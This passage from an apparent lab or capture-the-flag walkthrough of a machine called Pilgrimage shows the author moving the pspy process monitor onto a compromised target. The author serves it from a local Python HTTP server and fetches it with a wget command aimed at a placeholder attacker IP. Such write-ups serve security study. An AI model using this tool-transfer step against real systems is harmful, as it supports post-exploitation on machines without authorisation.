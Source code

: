 Next, I used `PsPy` [ [https://github.com/DominicBreuker/pspy/releases/](https://github.com/DominicBreuker/pspy/releases/) ] tool to check out for active processes.

Since, out target machine doesn’t have a internet connection, we have to move it from our local machine to the target machine. For that first we have to download pspy on our local machine.

![Untitled 26.png](Pilgrimage/assets/Untitled%2026.png)

After downloading pspy, its time to move it to the target machine.

Start a simple python http server on our local machine in the same directory where the pspy tool is located.

![Untitled 27.png](Pilgrimage/assets/Untitled%2027.png)

Now in the target machine, download the tool using `wget`.

Command: `wget http://<LocalMachine_tun0_IP>/pspy64`

![Untitled 28.png](Pilgrimage/assets/Untitled%2028.png)

